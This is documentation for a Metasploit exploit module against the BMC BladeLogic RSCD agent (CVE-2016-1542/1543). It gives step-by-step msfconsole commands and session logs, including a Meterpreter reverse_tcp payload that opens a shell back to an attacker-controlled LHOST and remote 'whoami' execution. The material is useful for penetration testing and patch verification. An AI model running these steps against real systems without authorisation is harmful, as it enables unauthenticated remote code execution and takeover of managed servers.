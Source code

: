 ## Description
This module exploits a weak access control check in the BMC Server Automation RSCD agent that allows arbitrary operating system commands to be executed without authentication.

Affected versions of the BMC RSCD agent fail to enforce authentication controls at the server side enabling a rogue client to send an authentication message, ignore the response, and continue interacting with the agent as though the authentication was successful. This module takes advantage of this vulnerability to execute arbitrary operating system commands using the BMC network shell (NSH) functionality.

The access control vulnerability itself was identified by Olga Yanushkevich of [ERNW](https://www.ernw.de/) and was assigned [CVE-2016-1542](https://www.cvedetails.com/cve/CVE-2016-1542/) and [CVE-2016-1543](https://www.cvedetails.com/cve/CVE-2016-1543/). Further details can be found at the [ERNW Insinuator website](https://insinuator.net/2016/03/bmc-bladelogic-cve-2016-1542-and-cve-2016-1543/).

Technical details of the RCE exploit can be found [here](https://nickbloor.co.uk/2018/01/01/rce-with-bmc-server-automation/) and [here](https://nickbloor.co.uk/2018/01/08/improving-the-bmc-rscd-rce-exploit/).

## Vulnerable Application
The module affects the RSCD agent component of [BMC BladeLogic Server Automation](http://www.bmcsoftware.uk/it-solutions/bladelogic-server-automation.html). The agent is installed on servers managed using BMC BladeLogic Server Automation and listens on TCP port 4750. The vulnerability affects versions 8.x below 8.6 SP1 Patch 2, 8.7 Patch 3, and 8.8. More details on affected versions and the fix can be found from the [BMC Knowledgebase](https://selfservice.bmc.com/casemgmt/sc_KnowledgeArticle?sfdcid=kA214000000dBpnCAE&type=Solution).

## Verification Steps
To use this exploit you will need access to BMC BladeLogic Server Automation.

1. Install the RSCD agent on a host as detailed in the [BMC documentation](https://docs.bmc.com/docs/ServerAutomation/89/agent-installation-overview-653394992.html).
2. Ensure that the RSCD service is running and listening on TCP port 4750.
3. Launch `msfconsole`.
4. Load the module `use exploit/multi/misc/bmc_server_automation_rscd_nsh_rce`.
5. Select the generic command target `set target 3`.
6. Select a generic command payload `set payload cmd/unix/generic` or `set payload cmd/windows/generic`.
7. Set the command to execute `set CMD "echo MSF"` or `set CMD "cmd /c echo MSF"`.
8. Run the exploit `exploit`.

The result should be that the string `MSF` is returned and output.

## Usage Scenarios
The exploit module contains several targets as detailed below.

### Target 0: Automatic
The automatic target causes the module to issue an `agentinfo` request to the target in an attempt to identify the target operating system. If it appears to be a Windows target then the module behaves as though target 1 was selected, otherwise it behaves as though target 2 was selected.

### Target 1: Windows/VBS Stager
This module target provides support for command staging to enable arbitrary Metasploit payloads to be used against Windows targets (for example, a Meterpreter shell).

	msf > use exploit/multi/misc/bmc_server_automation_rscd_nsh_rce
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > set RHOST 34.239.181.84
	RHOST => 34.239.181.84
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > set LHOST 54.164.112.135
	LHOST => 54.164.112.135
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > set TARGET 1
	TARGET => 1
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > set PAYLOAD windows/meterpreter/reverse_tcp
	PAYLOAD => windows/meterpreter/reverse_tcp
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > exploit
	[*] Exploit running as background job 1.
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) >
	[*] Started reverse TCP handler on 0.0.0.0:4444
	[*] 34.239.181.84:4750 - Command Stager progress -   8.01% done (8099/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  16.03% done (16198/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  24.04% done (24297/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  32.06% done (32396/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  40.07% done (40495/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  48.09% done (48594/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  56.10% done (56693/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  64.11% done (64792/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  72.13% done (72891/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  80.14% done (80990/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  88.16% done (89089/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress -  96.17% done (97188/101056 bytes)
	[*] 34.239.181.84:4750 - Command Stager progress - 100.00% done (101056/101056 bytes)
	[*] Sending stage (179779 bytes) to 34.239.181.84
	[*] Meterpreter session 1 opened (172.31.58.107:4444 -> 34.239.181.84:56233) at 2018-01-14 00:54:49 +0000

### Target 2: Unix/Linux
This module target provides support for command staging to enable arbitrary Metasploit payloads to be used against Unix/Linux targets in the same way as target 1.

### Target 3: Generic Cmd
This target can be used with *cmd* payloads to execute operating system commands against the target host.

	msf > use exploit/multi/misc/bmc_server_automation_rscd_nsh_rce
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > set RHOST 34.239.181.84
	RHOST => 34.239.181.84
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > set TARGET 3
	TARGET => 3
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > set PAYLOAD cmd/windows/generic
	PAYLOAD => cmd/windows/generic
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > set CMD "cmd /c whoami"
	CMD => cmd /c whoami
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) > exploit
	[*] Exploit running as background job 2.
	msf exploit(multi/misc/bmc_server_automation_rscd_nsh_rce) >
	[+] 34.239.181.84:4750 - Output
	ip-ac1f1eb2\bladelogicrscd

#### Windows Hosts
When using this module target against Windows hosts, non-powershell command lines are limited to around 8,100 characters and generally have to be prefixed with `cmd /c`.
Powershell commands are executed differently and have a much larger length limit of around 32,700 characters.
